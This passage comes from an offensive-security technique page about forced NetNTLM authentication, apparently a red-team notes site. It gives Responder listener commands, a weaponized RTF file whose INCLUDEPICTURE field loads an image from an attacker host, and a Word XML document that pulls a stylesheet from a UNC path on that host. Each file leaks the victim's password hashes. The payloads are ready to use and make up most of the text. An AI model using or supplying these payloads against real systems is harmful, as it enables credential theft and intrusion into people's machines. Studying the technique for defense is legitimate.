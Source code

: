 Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

Once the victim navigates to the C:\ where `link.url` file is placed, the OS tries to authenticate to the attacker's malicious SMB listener on `10.0.0.5` where NetNTLMv2 hash is captured:

![](../../.gitbook/assets/forced-authentication-url.gif)

## Execution via .RTF

Weaponizing .rtf file, which will attempt to load an image from the attacking system:

{% code title="file.rtf" %}
```csharp
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://10.0.0.5/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode %}

Starting authentication listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

Executing the file.rtf on the victim system gives away user's hashes:

![](../../.gitbook/assets/rtf-hashes.gif)

## Execution via .XML

MS Word Documents can be saved as .xml:

![](<../../.gitbook/assets/Screenshot from 2018-12-09 16-23-39.png>)

This can be exploited by including a tag that requests the document stylesheet (line 3) from an attacker controlled server. The victim system will share its NetNTLM hashes with the attacker when attempting to authenticate to the attacker's system:

```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" href="\\10.0.0.5\bad.xsl" ?>
```

Below is the attack illustrated:

![](<../../.gitbook/assets/Peek 2018-12-09 16-44.gif>)
